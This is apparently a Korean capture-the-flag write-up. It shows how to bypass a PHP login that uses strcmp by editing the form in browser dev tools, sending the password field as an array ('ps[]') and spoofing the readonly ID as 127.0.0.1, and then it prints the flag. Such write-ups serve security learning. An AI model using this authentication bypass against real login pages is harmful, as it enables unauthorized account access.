 ```php
        } else {
            echo "<script>alert('login failed..');history.back();</script>";
        }
    }
?>
```

일단 `strcmp`로 `ps`를 비교하니까 필드값을 `ps[]`로 고치면 되겠고, 딱히 `id`도 IP 검사를 안하니까 readonly더라도 소스를 고쳐서 Request 보내면 되겠다.

크롬 개발자 도구로 소스를 고친다.

```html
<!-- 중략 -->
<form method="post" action="./page/login_ok.php">
    ID : <input type="text" name="id" value="XXX.XXX.XXX.XXX" readonly=""><br>
    PS : <input type="password" name="ps"><br>
    <input type="submit" value="login">
</form>
<!-- 중략 -->
```

다음과 같이 고친다.

```html
<!-- 중략 -->
<form method="post" action="./page/login_ok.php">
    ID : <input type="text" name="id" value="127.0.0.1" readonly=""><br>
    PS : <input type="password" name="ps[]"><br>
    <input type="submit" value="login">
</form>
<!-- 중략 -->
```

그리고 나서 요청을 보내면 된다.

![](img/18_web5-2.png)

```
FLAG: Brann@@@@U_Web
```

---